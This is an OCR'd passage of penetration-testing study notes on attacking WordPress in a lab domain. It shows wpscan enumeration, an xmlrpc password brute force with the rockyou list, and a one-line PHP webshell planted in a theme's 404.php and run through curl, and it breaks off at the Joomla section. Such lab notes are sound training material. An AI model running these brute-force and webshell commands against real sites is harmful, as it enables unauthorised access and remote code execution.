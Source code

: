     curl -s http://blog.inlanefreight.local/ | grep plugins
    # check for WP plugins
    # we can browse to plugins directory and check for any versions

    # enumerate the above in posts pages as well

    # check for user enumeration in /wp-login.php
    # error messages can change for valid/invalid usernames
    ```

    ```sh
    # automated scan

    wpscan --url http://blog.inlanefreight.local --enumerate
    ```
  
  * login bruteforce:

    ```sh
    sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
    # password-attack has 2 modes - xmlrpc and wp-login
    # xmlrpc is faster
    ```
  
  * code execution - if we have admin access to WP, we can modify PHP source code with a simple webshell - ```system($_GET[0]);``` - for an uncommon page like '404.php' in an inactive theme:

    ```sh
    curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
    # we can use this to get reverse shell

    # we also use wp_admin_shell_upload from Metasploit
    ```
  
  * leveraging known vulnerabilities - we can check for vulnerabilities associated with WP version, plugins and themes

* Joomla:
